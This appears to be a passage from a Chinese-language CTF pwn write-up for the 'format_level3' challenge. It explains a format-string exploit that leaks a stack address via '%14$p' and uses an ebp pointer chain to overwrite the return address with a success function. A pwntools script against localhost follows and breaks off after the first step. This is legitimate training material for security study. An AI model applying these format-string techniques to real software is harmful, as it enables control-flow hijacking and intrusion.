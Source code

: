 

## format_level3

与上一道题不同，buf在bss段上的时候就不能用偏移量来构造了。这时应该用栈作为跳板，修改返回地址。我们可以将当前函数的返回地址(0xffffcfcc处)修改为后success函数的地址。

利用动态调试可以寻找合适的跳板。这里我选用了ebp指针，ebp指针指向了一个栈内存，而指向的栈0xffffcfe8又指向了栈内存0xffffcff8。ebp的偏移量为6，0xffffcff8的偏移量为14。

![image-20230822214216226](./moectf2023-pwn-wp.assets/image-20230822214216226.png)

这里我将整体分为了3步：

1. step1:

获取偏移量为14处的内存，即ebp的值指向的地址。（内存泄漏，具体获取那一块不要紧，只要获取的地址在栈上，最终都可以通过获取的值与返回地址的偏移量计算出栈上返回地址的地址），0xffffcff8与0xffffcfcc相差0x2c，所以只需将获得的地址减去0x2c即得到返回地址的地址。

2. step2：

将偏移量为14处的内存的值重写为指向返回地址(即0xffffcfcc)

3. step3:

通过向偏移为14处的内存指向的地址（即返回地址）写入后门的地址即可完成修改。

exp如下：

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35409)

# step 1
sh.sendline(b'3')
sleep(2)
sh.sendline(b'%14$p')
sleep(2)
sh.recvuntil(b'0x')
stack_addr = int(sh.recv()[:8], 16)
print(hex(stack_addr))

# step 2
sh.sendline(b'3')
```